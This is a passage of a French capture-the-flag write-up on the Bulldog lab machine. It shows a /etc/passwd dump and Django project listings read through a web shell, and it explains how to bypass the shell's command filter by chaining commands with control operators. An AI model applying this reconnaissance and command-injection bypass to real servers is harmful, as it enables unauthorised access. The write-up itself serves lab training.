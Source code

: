 ```console
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
bulldogadmin:x:1000:1000:bulldogadmin,,,:/home/bulldogadmin:/bin/bash
django:x:1001:1001:,,,:/home/django:/bin/bash
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
```

Preuve qu'une attaque par dictionnaire avec les logins trouvés dans le code source HTML (alan, william, malik...) aurait été inutile : le staff ne dispose pas de comptes nominatifs sur le serveur Unix. En revanche, trois comptes sont particulièrement intéressants car il est possible de s'y connecter en SSH : bulldogadmin, django et... root, bien sûr !

```console
Command : ls -al
total 56
drwxrwxr-x 3 django django  4096 Feb  9 21:59 .
drwxr-xr-x 5 django django  4096 Sep 21 00:45 ..
drwxrwxr-x 4 django django  4096 Aug 24 23:23 bulldog
-rwxr-xrwx 1 django django 40960 Feb  9 21:59 db.sqlite3
-rwxr-xr-x 1 django django   250 Aug 16 23:51 manage.py


Command : ls -al bulldog
total 52
drwxrwxr-x 4 django django 4096 Aug 24 23:23 .
drwxrwxr-x 3 django django 4096 Feb  9 21:59 ..
-rw-r--r-- 1 django django    0 Aug 16 23:51 __init__.py
-rw-r--r-- 1 django django  138 Aug 16 23:55 __init__.pyc
-rw-r--r-- 1 django django 2762 Aug 24 01:23 settings.py
-rw-r--r-- 1 django django 2971 Aug 24 23:23 settings.pyc
drwxrwxr-x 4 django django 4096 Aug 24 00:52 static
drwxrwxr-x 2 django django 4096 Sep 21 00:36 templates
-rw-r--r-- 1 django django 1154 Aug 18 03:11 urls.py
-rw-r--r-- 1 django django 1477 Aug 24 23:23 urls.pyc
-rw-rw-r-- 1 django django  995 Aug 19 05:23 views.py
-rw-rw-r-- 1 django django 1927 Aug 19 05:24 views.pyc
-rw-r--r-- 1 django django  391 Aug 16 23:51 wsgi.py
-rw-r--r-- 1 django django  595 Aug 16 23:55 wsgi.pyc
```

Le but du jeu va consister à exécuter des commandes auxquelles nous n'avons normalement pas droit. Généralement, l'exploitation de cette vulnérabilité est réalisée à l'aide d'opérateurs logiques ([_control operators_](https://www.w3resource.com/linux-system-administration/control-operators.php) en anglais) : en effet, il est possible d'enchaîner plusieurs commandes à la suite, et la vérification n'est réalisée que sur le premier mot / que sur la première commande fournie. Ainsi, si le point-virgule est interdit, d'autres opérateurs logiques peuvent être utilisés afin de contourner les restrictions du Web-Shell.  
